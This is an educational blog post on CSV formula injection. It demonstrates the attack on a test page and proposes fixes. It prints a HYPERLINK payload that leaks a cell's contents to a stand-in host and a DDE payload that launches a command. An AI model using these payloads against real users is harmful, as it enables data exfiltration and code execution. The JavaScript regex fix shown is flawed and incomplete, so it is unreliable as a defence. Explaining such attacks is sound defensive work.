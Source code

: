 ```yaml
---
slug: is-csv-secure/
title: Is that CSV Secure?
date: 2017-12-22
category: attacks
subtitle: Defining CSV injection vulnerabilities
tags: cybersecurity, vulnerability, code, web
image: https://res.cloudinary.com/fluid-attacks/image/upload/v1620330929/blog/is-csv-secure/cover_tteaiz.webp
alt: Blank CSV document icon
description: Comma-Separated Values file is a common extension in data files used in several application fields. Here we present a CSV vulnerability most people ignore.
keywords: CSV, Security, Vulnerability, Code, Web, Spreadsheet, Ethical Hacking, Pentesting
author: Jonathan Armas
writer: johna
name: Jonathan Armas
about1: Systems Engineer, Security+
about2: '"Be formless, shapeless like water" Bruce Lee'
source: https://unsplash.com/photos/Wpnoqo2plFA
---
```


Comma-Separated Values file (or CSV) is a type of file that stores
tabular data, numbers and text in plain text. Each line of the file is a
data record and each record consists of one or more fields separated by
commas. CSV is a common data exchange format that is widely supported by
consumer, business, and scientific applications. As an example, a user
may need to transfer information from a database program that stores
data in a proprietary format, to a spreadsheet that uses a completely
different format. The database program most likely can export its data
as "CSV"; the exported CSV file can then be imported by the spreadsheet
program.

<div class="imgblock">

![example](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330927/blog/is-csv-secure/csv-example_et64py.webp)

</div>

There is a vulnerability in this types of format that the most of
programmers ignores, that is "CSV Injection". As
[OWASP](https://www.owasp.org/index.php/CSV-Injection) says, it occurs
when websites embed untrusted input inside CSV files, when a spreadsheet
program is used to open a CSV file, any cell starting with '**=**' is
considered as a formula and crafted formulas can be used to malicious
attacks.

## CSV Injection Example

We have a page that stores data on a table and exports it on a CSV file

<div class="imgblock">

![page](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330927/blog/is-csv-secure/csv-example_et64py.webp)

</div>

We put some normal data and nothing happens

<div class="imgblock">

![input](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330926/blog/is-csv-secure/normal-input_tryyrw.webp)

</div>

<div class="imgblock">

![result](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330926/blog/is-csv-secure/normal-result_twbflm.webp)

</div>

But what happens if we put a formula like =2+5 in a field?

<div class="imgblock">

![formula-input](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330926/blog/is-csv-secure/formula-input_x6toul.webp)

</div>

<div class="imgblock">

![formula-result](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330926/blog/is-csv-secure/formula-result_tuzdgy.webp)

</div>

On our table nothing happens, but when we open the CSV file we get the
result of the formula that we introduced. This can be very dangerous if
someone introduce a more dangerous code like

``` text
  =HYPERLINK("http://dangerous.com?x="&A3&"[CR]","Error fetching info: Click me to resolve.")
```

When the user open the file it shows a link with our malicious site

<div class="imgblock">

![vuln](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330926/blog/is-csv-secure/hyperlink-vuln_mlaocr.webp)

</div>

Also we can execute commands on the target with this formula injection,
in where we open the calc when someone opens the CSV file

``` text
  =cmd|' /C calc'!A0
```

It shows some warnings but the user trust in the source of the file and
accept

<div class="imgblock">

![warning-1](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330925/blog/is-csv-secure/first-warning_wbfqyq.webp)

</div>

<div class="imgblock">

![warning-2](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330927/blog/is-csv-secure/second-warning_hha72t.webp)

</div>

And then the code execution

<div class="imgblock">

![exec](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330926/blog/is-csv-secure/exec-example_bumpxl.webp)

</div>

The effectiveness of this vulnerability is that the user trust on the
source of the file without asking himself if is the normal behaviour
when someone opens a CSV file and the program asks form permission

<div>
<cta-banner
buttontxt="Read more"
link="/solutions/vulnerability-management/"
title="Get started with Fluid Attacks' Vulnerability Management solution
right now"
/>
</div>

### Solution

- First is user awareness, because Windows shows an alert when someone
  puts command execution code in the CSV file like we’ve seen

- Second, input validation, the most common characters to do this
  attack are:

<!-- end list -->

``` text
  =,+,-,@
```

A developer could make a validation like this regex

**validation.js.**

``` JavaScript
var regexp = new RegExp(/([=,-,+,@])/g);
```

And blocking this types of input, also, can put a space between the
dangerous character like ' =' to mitigate this vulnerability

``` JavaScript
if(regexp.test(formData.sdata1)){
  formData.sdata1 = " "+formData.sdata1
}
if(regexp.test(formData.sdata2)){
  formData.sdata2 = " "+formData.sdata2
}
```

In this example we can see that the spreadsheet program doesn’t
calculate the formula and our input is secure

<div class="imgblock">

![secure-input](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330927/blog/is-csv-secure/secure-input_bisups.webp)

</div>

<div class="imgblock">

![secure-result](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330924/blog/is-csv-secure/secure-result_sfsxxc.webp)

</div>

The source code of the page for testing can be found
[here](csvinjection.zip)
